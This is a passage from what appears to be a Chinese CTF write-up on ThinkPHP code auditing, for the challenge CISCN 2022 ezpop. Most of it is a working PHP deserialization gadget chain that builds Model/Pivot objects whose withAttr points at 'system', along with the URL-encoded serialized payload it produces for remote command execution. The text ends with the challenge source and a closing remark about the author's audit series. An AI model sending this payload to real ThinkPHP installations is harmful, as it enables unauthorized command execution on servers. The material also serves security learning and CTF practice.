        protected $jsonAssoc = false;
        function __construct($obj = ''){
            $this->lazySave = True;
            $this->data = ['whoami' => ['ls /']];
            $this->exists = True;
            $this->table = $obj;
            $this->withAttr = ['whoami' => ['system']];
            $this->json = ['whoami',['whoami']];
            $this->jsonAssoc = True;
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace {
    echo (urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}

//O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

来源题目 \[CISCN 2022 初赛\]ezpop

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110951-aa7693fc-d9d4-1.png)

tp代码审计先告一段落了，后续陆续更新。比较冗长，浅当学习一波
